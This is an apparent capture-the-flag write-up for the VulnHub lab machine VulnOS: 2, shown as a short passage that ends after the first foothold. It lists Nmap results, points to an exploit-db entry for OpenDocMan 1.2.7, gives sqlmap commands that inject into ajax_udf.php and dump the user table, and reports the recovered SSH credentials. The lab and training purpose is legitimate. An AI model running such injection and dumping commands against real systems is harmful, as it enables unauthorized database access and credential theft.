 <h1>VulnOS: 2 Write-up</h1>

<h2>Nmap</h2>

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.6 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
6667/tcp open  irc     ngircd
```
<h3>PORT 80</h3>

on http://192.168.56.104/jabc/?q=node/7

Press CTRL+A  to see the hidden content 

on : http://192.168.56.104/jabcd0cs/ **OpenDocMan 1.2.7** is running 

<h2>Exploiting</h2>

<h3>sql injection :</h3>

Exploit : https://www.exploit-db.com/exploits/32075

```
sqlmap --url "http://192.168.56.104/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user*" --dbs --level=5 --risk=3
sqlmap --url "http://192.168.56.104/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user*" -D jabcd0cs -T odm_user --dump
```

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/VulnOS%3A%202/Images/sqlmap.png)

```
username : **webmin**
decrypt md5 password :  **webmin1980**
```

Login ssh using this creds 




